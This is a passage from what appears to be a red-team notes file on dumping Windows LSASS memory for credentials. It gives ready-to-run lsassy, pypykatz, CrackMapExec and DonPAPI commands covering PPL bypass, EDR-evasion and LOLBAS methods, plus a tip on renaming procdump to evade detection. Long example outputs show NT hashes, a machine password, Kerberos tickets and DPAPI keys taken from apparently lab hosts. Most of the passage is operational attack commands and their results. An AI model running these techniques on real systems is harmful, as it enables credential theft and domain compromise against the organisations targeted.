							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_824abab7.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_824abab7.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_8bbd4baa.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_8bbd4baa.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_035c7523.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_035c7523.kirbi)
							SUCCESS:root:Credentials saved to outfile4.txt
							[+] 10.0.0.60 Credentials saved to outfile4.txt
							SUCCESS:root:30 Kerberos tickets written to /root/.config/lsassy/tickets
							[+] 10.0.0.60 30 Kerberos tickets written to /root/.config/lsassy/tickets
							SUCCESS:root:8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
							[+] 10.0.0.60 8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
				* procdump_embedded

						lsassy -m procdump_embedded -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>

								lsassy -m procdump_embedded --options procdump_path=binaries/procdump64.exe -u 'domain_admin' -p 'P@ssw0rd' -d 'microsoftdelivery.com' -o outfile4.txt 10.0.0.60
								SUCCESS:root:Authentication successful
								[+] 10.0.0.60 Authentication successful
								SUCCESS:root:procdump uploaded
								[+] 10.0.0.60 procdump uploaded
								SUCCESS:root:Lsass dumped in C:\Windows\Temp\zCXVJ.dmp (56354118 Bytes)
								[+] 10.0.0.60 Lsass dumped in C:\Windows\Temp\zCXVJ.dmp (56354118 Bytes)
								SUCCESS:root:Lsass dump deleted
								[+] 10.0.0.60 Lsass dump deleted
								SUCCESS:root:MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
								[+] 10.0.0.60 MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
								SUCCESS:root:MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
								[+] 10.0.0.60 MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
								SUCCESS:root:microsoftdelivery.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
								[+] 10.0.0.60 microsoftdelivery.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
								SUCCESS:root:MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
								[+] 10.0.0.60 MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
								SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_53b91a0b.kirbi)
								[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_53b91a0b.kirbi)
								SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_375a9e7f.kirbi)
								[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_375a9e7f.kirbi)
								SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:13 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_6e2f1491.kirbi)
								[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:13 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_6e2f1491.kirbi)
								SUCCESS:root:MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_a88b0199.kirbi)
								[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_a88b0199.kirbi)
								SUCCESS:root:MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_8b453c42.kirbi)
								[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_8b453c42.kirbi)
								SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_4e7fda28.kirbi)
								[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_4e7fda28.kirbi)
								SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_824abab7.kirbi)
								[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_824abab7.kirbi)
								SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_8bbd4baa.kirbi)
								[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_8bbd4baa.kirbi)
								SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_035c7523.kirbi)
								[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_035c7523.kirbi)
								SUCCESS:root:Credentials saved to outfile4.txt
								[+] 10.0.0.60 Credentials saved to outfile4.txt
								SUCCESS:root:30 Kerberos tickets written to /root/.config/lsassy/tickets
								[+] 10.0.0.60 30 Kerberos tickets written to /root/.config/lsassy/tickets
								SUCCESS:root:8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
								[+] 10.0.0.60 8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
	* sqldumper
		* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
			* References
					* Legitimate Windows Binary
			* Methods
				* sqldumper -<br />[https://twitter.com/countuponsec/status/910969424215232518](https://twitter.com/countuponsec/status/910969424215232518)
	* rdrleakdiag
		* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
			* References
				* [https://twitter.com/0gtweet/status/1299071304805560321](https://twitter.com/0gtweet/status/1299071304805560321)
			* Methods

						lsassy -m rdrleakdiag -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>

							(lsassy) root@Jack-PC:~/lsassy# lsassy -m rdrleakdiag -u 'domain_admin' -p 'P@ssw0rd' -d 'microsoftdelivery.com' -K Kerberos -f pretty -o outfile3.txt 10.0.0.60
							SUCCESS:root:Authentication successful
							[+] 10.0.0.60 Authentication successful
							SUCCESS:root:Lsass dumped in C:\Windows\Temp\l6DRXZdfx.xml (54951534 Bytes)
							[+] 10.0.0.60 Lsass dumped in C:\Windows\Temp\l6DRXZdfx.xml (54951534 Bytes)
							SUCCESS:root:Lsass dump deleted
							[+] 10.0.0.60 Lsass dump deleted
							SUCCESS:root:MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							[+] 10.0.0.60 MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							SUCCESS:root:MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
							[+] 10.0.0.60 MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
							SUCCESS:root:microsoftdelivery.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
							[+] 10.0.0.60 microsoftdelivery.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
							SUCCESS:root:MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							[+] 10.0.0.60 MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_53b91a0b.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_53b91a0b.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_375a9e7f.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_375a9e7f.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:13 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_6e2f1491.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:13 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_6e2f1491.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_a88b0199.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_a88b0199.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_8b453c42.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_8b453c42.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_4e7fda28.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_4e7fda28.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_824abab7.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_824abab7.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_8bbd4baa.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_8bbd4baa.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_035c7523.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_035c7523.kirbi)
							SUCCESS:root:Credentials saved to outfile3.txt
							[+] 10.0.0.60 Credentials saved to outfile3.txt
							SUCCESS:root:30 Kerberos tickets written to /root/lsassy/Kerberos
							[+] 10.0.0.60 30 Kerberos tickets written to /root/lsassy/Kerberos
							SUCCESS:root:8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
							[+] 10.0.0.60 8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
	* <details><summary>Additional LOLBAS, Needs Research (Click to expand)</summary><p>
		* References
			* [https://lolbas-project.github.io/#t1003]](https://lolbas-project.github.io/#t1003)
		* <details><summary>Tttracer.exe (Click to expand)</summary><p>
			* References
				* [https://twitter.com/oulusoyum/status/1191329746069655553](https://twitter.com/oulusoyum/status/1191329746069655553)
				* [https://twitter.com/mattifestation/status/1196390321783025666](https://twitter.com/mattifestation/status/1196390321783025666)
				* [https://lists.samba.org/archive/cifs-protocol/2016-April/002877.html](https://lists.samba.org/archive/cifs-protocol/2016-April/002877.html)
			* Notes
				* Requires administrator privileges
				* Dump lsass
			* Examples

					TTTracer.exe -dumpFull -attach pid
		* <details><summary>adplus.exe (Click to expand)</summary><p>
			* References
				* [https://blog.thecybersecuritytutor.com/adplus-debugging-tool-lsass-dump/](https://blog.thecybersecuritytutor.com/adplus-debugging-tool-lsass-dump/)
			* Examples

					adplus.exe -hang -pn lsass.exe -o c:\users\mr.d0x\output\folder -quiet
		* <details><summary>Dump64.exe (Click to expand)</summary><p>
			* References
				* [https://twitter.com/mrd0x/status/1460597833917251595](https://twitter.com/mrd0x/status/1460597833917251595)
			* Notes
				* Additional Evasion:
					1. Rename procdump.exe to dump64.exe
					1. Place the new "dump64.exe" in the folder `C:\Program Files (x86)\Microsoft Visual Studio\*`
					1. Dump lsass
			* Examples

					dump64.exe <pid> out.dmp
* rawrpc
	* <details><summary>References (Click to expand)</summary><p>
		* -<br />[https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e](https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e)
	* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
		* References
			* [https://github.com/Hackndo/lsassy/pull/74](https://github.com/Hackndo/lsassy/pull/74)
		* Command

				lsassy --options rpcloader_path=binaries/rpcloader.c
* syscalls
	* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
		* References
		* Methods
			* dumpert
				* This method uploads dumpert.exe or dumpert.dll from outflanknl to dump lsass process using syscalls.


						lsassy -m dumpert -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>

							
			* dumpertdll

						lsassy -m dumpertdll -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>

							
* Bypass PPL
	* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
		* References
		* Methods
			* ppldump
				* This method uploads ppldump.exe from itm4n to dump lsass process and bypass PPL.


						lsassy -m ppldump -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>

							.
			* ppldump_embedded

						lsassy -m ppldump_embedded -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>

							.
* Use existing handle to lass from LSA plugin (MirrorDump)
	* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
		* References
		* Methods
			* mirrordump
				* This method uploads Mirrordump.exe from Ccob to dump lsass using already opened handle to lsass via an LSA plugin.

						lsassy -m mirrordump -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>
		* References
		* Methods
			* mirrordump_embedded


						lsassy -m mirrordump_embedded -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>							
* WER method from PowerSploit
	* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
		* wer (Not working when tested)

				lsassy -m wer -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
			* <details><summary>Example Output (Click to expand)</summary><p>
* EDRSandBlast Technique -<br />[https://github.com/wavestone-cdt/EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast)
	* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
		* Examples

				lsassy -m edrsandblast --options edrsandblast_path=<locationofbinary> -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
			* <details><summary>Example Output (Click to expand)</summary><p>
* Nanodump Method -<br />[https://github.com/helpsystems/nanodump](https://github.com/helpsystems/nanodump)
	* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
			* Examples
				* Example 1
				
						lsassy -d domain.local -u <username> -p <password> <target>
				* Sample Output

						[+] [192.168.0.76] TEST\testadmin
						58a478135a93ac3bf058a5ea0e8fdb71[+] [192.168.0.76] TEST\testadmin  Password123
* DLL Injection
	* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
		* References
			* [https://twitter.com/HackAndDo/status/1447970760593711105](https://twitter.com/HackAndDo/status/1447970760593711105)
		* Methods
			* dllinject

						lsassy -m dllinject -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>
							
* <details><summary>pypkatz (Click to expand) -<br />[https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatz)</summary><p>
	* <details><summary>Install (Click to expand)</summary><p>
		* Pip

				pip3 install pypykatz
		* GitHub
			* Pre-Reqs

					pip3 install minidump minikerberos aiowinreg msldap winacl
			* Install after clone

					python3 setup.py install
	* Command

			pypykatz smb lsassdump 'smb2+ntlm-password://TEST\Administrator:QLFbT8zkiFGlJuf0B3Qq@10.10.10.102'
		* Example Output

				.
* <details><summary>crackmapexec modules ([CrackMapExec Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/CrackMapExec.md)) (Click to expand)</summary><p>
	* lsassy module
		* References
			* [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/lsassy_dump.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/lsassy_dump.py)
		* Examples

				cme smb <target> -u <local_admin> -p <Password> -M lsassy

	* nanodump module
		* Examples

				cme smb <target> -u <local_admin> -p <Password> -M nanodump
* <details><summary>DonPAPI (Click to expand)</summary><p>
	* [https://github.com/login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)
		* Requirements
			* Leverages impacket and requires impacket formatting ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md))
		* Command

				python DonPAPI.py 'securelab/domain_admin:P@ssw0rd@10.0.0.1'
			* Parameters
				* `--GetHashes` - Get all users Masterkey's hash & DCC2 hash 
				* impacket authentication parameters
		* <details><summary>Sample Output (Click to expand)</summary><p>

				(DonPAPI-pjnvgme9) root@ubuntu:~/Tools/DonPAPI# python DonPAPI.py 'securelab/domain_admin:P@ssw0rd@10.0.0.1'
				Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

				INFO Initializing database ./seatbelt.db
				INFO Loaded 1 targets
				INFO [10.0.0.1] [+] DC01 (domain:securelab.local) (Windows 10.0 Build 17763) [SMB Signing Disabled]
				INFO host:     \\10.0.0.22, user: ANONYMOUS LOGON, active:     0, idle:     0
				INFO host:     \\10.0.0.22, user: domain_admin, active:     0, idle:     0
				INFO [10.0.0.1] [+] Found user Administrator
				INFO [10.0.0.1] [+] Found user All Users
				INFO [10.0.0.1] [+] Found user Default
				INFO [10.0.0.1] [+] Found user Default User
				INFO [10.0.0.1] [+] Found user domain_admin
				INFO [10.0.0.1] [+] Found user Public
				INFO [10.0.0.1]  [+] Dumping LSA Secrets
				INFO [10.0.0.1] [-] Found DPAPI Machine key : 0x9663dc9ffa84c0767e47fd41ce70197447bbcb55
				INFO [10.0.0.1] [-] Found DPAPI User key : 0x000dadb580d0b409d6ba8c6bb0c3060be1daabdf
				INFO [10.0.0.1] [-] Found DPAPI Machine key : 0xea1ed396496460eea2f7e4f15a9e969aba16f1b2
				INFO [10.0.0.1] [-] Found DPAPI User key : 0xb1c6e91f897a6eb0bbbc726bb0f80fb9122fdb94
				INFO [10.0.0.1] [+]  LSA :  NL$KM_history : 697b6a08426b6d1dd9ba975459b5f3fd830e1a4da89c649c7613803c0bf1ba2bbae058e9612609914b05861acfcf4e7e9c38910ca84c90df6cfe40e7c9e60281 
				INFO [10.0.0.1]  [+] Dumping SAM Secrets
				ERROR SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
				INFO [10.0.0.1] [+]  SAM : Collected 4 hashes 
				INFO [10.0.0.1] [+] Gathering DPAPI Secret blobs on the target
				INFO [10.0.0.1] [+]  
				[CREDENTIAL]
				LastWritten : 2021-11-01 23:13:32
				Flags       : 48 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
				Persist     : 0x2 (CRED_PERSIST_LOCAL_MACHINE)
				Type        : 0x1 (CRED_PERSIST_SESSION)
				Target      : WindowsLive:target=virtualapp/didlogical
				Description : PersistedCredential
				Unknown     : 
				Username    : 02gvvutlgccdigma
				Unknown3     : 
				 
				INFO [10.0.0.1] [+] Gathering Wifi Keys
				INFO [10.0.0.1] [+] Gathering Vaults
				INFO [10.0.0.1] [+] Gathering Chrome Secrets 
				INFO [10.0.0.1] [+] Gathering Mozilla Secrets 
				INFO [10.0.0.1] [+] Gathering VNC Passwords
				INFO [10.0.0.1] [+] Gathering mRemoteNG Secrets 
				INFO [10.0.0.1] [+] Gathering Recent Files and Desktop Files 
				INFO [+] Generating report
* Dump Kerberos Tickets
	* <details><summary>LSASSY Kerberos CME (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/mpgn_x64/status/1453841000582066189](https://twitter.com/mpgn_x64/status/1453841000582066189)
		* Commands

				lsassy -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
			* <details><summary>Example Output (Click to expand)</summary><p>

					lsassy -u 'domain_admin' -p 'P@ssw0rd' -d 'domain.com' -K Kerberos -f pretty -o outfile.txt 10.0.0.60
					SUCCESS:root:Authentication successful
					[+] 10.0.0.60 Authentication successful
					SUCCESS:root:Lsass dumped in C:\Windows\Temp\OwGcbY.fnt (55581140 Bytes)
